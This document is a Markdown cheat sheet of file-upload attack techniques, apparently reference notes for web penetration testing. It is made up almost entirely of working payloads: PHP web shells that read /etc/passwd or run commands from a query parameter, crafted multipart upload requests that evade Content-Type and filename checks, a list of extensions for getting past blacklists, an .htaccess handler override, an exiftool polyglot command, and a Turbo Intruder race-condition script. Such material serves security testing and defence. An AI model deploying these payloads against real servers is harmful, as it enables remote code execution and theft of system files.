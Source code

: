 ```yaml
---
title: File Upload Vulnerabilities
desc: Examples of File Upload Vulnerabilities.
tags: [FileUpload, Web]
alts: []
website:
render_with_liquid: false
---
```


## Web shell (.php)

```php
<?php echo file_get_contents('/etc/passwd');  ?>

// https://vulnerable.com/exploit.php?cmd=whoami
<?php echo system($_GET['cmd']); ?>
```

<br />

## Content-Type validation (change Content-Type)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
...
```

<br />

## Directory Traversal (change filename)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
```

<br />

## File extensions for bypass blacklist

```
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.php.
exploit.php.jpg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
exploit.php%0d%0a.jpg
```

<br />

## Override the server configuration

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

<br />

## Polyglot web shell (using exiftool)

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

<br />

## Race condition (using Turbo Intruder)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```

<br />

## Bypass exif_imagetype() for PHP

Fake image file with exploit.php

```php
// exploit.php

GIF32a
<?php echo system('whoami'); ?>
```